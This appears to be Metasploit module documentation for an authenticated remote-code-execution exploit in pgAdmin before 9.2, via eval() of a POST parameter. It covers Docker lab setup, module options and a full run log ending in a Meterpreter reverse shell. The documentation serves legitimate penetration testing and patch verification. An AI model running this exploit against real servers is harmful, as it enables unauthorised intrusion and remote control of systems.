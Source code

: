 ## Vulnerable Application

### Description

This module exploits a vulnerability in pgAdmin where an authenticated user can establish a connection to the query tool
and send a specific payload in the query_commited POST parameter. This payload is directly executed via a Python eval()
statement, resulting in remote code execution in versions prior to 9.2.

To exploit this vulnerability, pgAdmin credentials are required. Additionally, in order to interact with the vulnerable
SQL editor component, valid database credentials are necessary to initialize a session and obtain a transaction ID,
which is required for the exploit.


### Setup

A pgAdmin Docker instance can be started using the following command:
```bash
docker run -d -p 8484:80 -e PGADMIN_DEFAULT_EMAIL=admin@admin.com -e PGADMIN_DEFAULT_PASSWORD=adminpassword --name pgadmin dpage/pgadmin4:9.0
```
A PostgreSQL database needs to be connected to the pgAdmin instance in order to exploit. The version of postgresql doesn't matter:
```bash
docker run -d -p 5432:5432 --name postgres -e POSTGRES_PASSWORD=mysecretpassword -e POSTGRES_USER=pgadminuser -e POSTGRES_DB=pgadmin postgres:latest
```

## Verification Steps
1. Start msfconsole.
1. Do: use exploit/multi/http/pgadmin_query_tool_authenticated.
1. Set the RHOST, USERNAME, PASSWORD, DB_USER, DB_PASS AND DB_NAME options.
1. Run the module.
1. Receive a Meterpreter session as the pgAdmin user. 

## Options

### USERNAME
The username for authentication (required).

### PASSWORD
The password for authentication (required).

### DB_USER
The database username to authenticate to the database with (required).

### DB_PASS
The password to authenticate to the database with (required).

### DB_NAME
The name of the database to target (required)

### MAX_SERVER_ID
The maximum number of Server IDs to try and connect to. This is used to determine the correct server ID for the exploit.
A valid `sid` is required in order to connect to the query_tool in order to exploit. The default value is 10.

## Scenarios
### pgAdmin 4 v9.0
```
msf exploit(multi/http/pgadmin_query_tool_authenticated) > run db_name=postgres db_user=pgadminuser db_pass=mysecretpassword rhost=127.0.0.1 rport=8484 username=admin@admin.com password=adminpassword lhost=172.16.199.1 MAX_SERVER_ID=10 verbose=true
[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. pgAdmin version 9.0.0 is affected
[+] Successfully authenticated to pgAdmin
[*] Trying server ID: 1
[*] Trying server ID: 2
[*] Trying server ID: 3
[+] Successfully initialized sqleditor
[*] Exploiting the target...
[*] Sending stage (24772 bytes) to 172.16.199.1
[+] Received a 500 response from the exploit attempt, this is expected
[*] Meterpreter session 3 opened (172.16.199.1:4444 -> 172.16.199.1:62455) at 2025-04-09 17:05:17 -0700

meterpreter > getuid
Server username: pgadmin
smeterpreter > sysinfo
Computer     : e9b855f7cda2
OS           : Linux 6.10.14-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Mar 20 16:36:58 UTC 2025
Architecture : x64
Meterpreter  : python/linux
meterpreter >
```
